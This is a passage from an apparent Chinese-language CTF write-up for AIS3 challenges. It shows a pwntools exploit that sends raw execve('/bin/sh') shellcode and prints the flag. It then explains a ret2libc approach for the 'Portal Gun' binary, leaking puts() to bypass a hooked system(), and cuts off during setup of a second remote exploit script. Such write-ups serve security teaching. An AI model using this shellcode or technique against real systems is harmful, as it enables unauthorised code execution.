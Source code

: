```python
r.sendline('aaa')
r.recvuntil('?')

payload = '{:c}{:c}'.format(0x77, 0x20)
payload += 'wubbalubbadubdub' * 2
payload = bytes(payload, 'latin-1')
payload += b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
r.sendline(payload)
r.interactive()
# AIS3{Y0U_5peAk_$helL_codE_7hat_iS_CARzy!!!}
```

### Portal Gun

* 本題有三個檔案
	* `portal_gun` 執行檔
	* `libc.so.6` libc
	* `hook.so`
		* `system()` 被 hook 掉了

在 `portal_gun` 中送你一個 `system()`

![](https://i.imgur.com/von5A3c.png)

但是實際跳過去執行時，會發現 `system()` 被 hook 掉了

![](https://i.imgur.com/AlANLNL.png)

但是有 `puts()` 可以利用，思路是：用 `puts()` leak 出某個 libc function 的 address (就 leak `puts()`)
接著可以算出真正 `system()` 的位置；或是直接跳 `one_gadget` 也可以。

```python
#!/usr/bin/env python3
# -*- coding: UTF-8 -*-
from pwn import *

context(arch='amd64', os='linux') # i386, amd64
_ATT = 0
_local = 0

host = "60.250.197.227"
port = "10002"

exe_path = './portal_gun'
ld_path = './ld-2.27.so'
libc_path = './libc.so.6'
r = None
elf = None
libc_elf = None
def conn():
	global r, elf, libc_elf
	elf = ELF(exe_path)
	libc_elf = ELF(libc_path)
	if _local:
		r = process([ld_path, exe_path], env={"LD_PRELOAD":libc_path})
	else:
		r = remote(host, port)
conn()
if _ATT:
	log.info('Waiting for attach...')
	raw_input()
# bytes('A', 'latin-1')

sh_str = 0x04007C8
```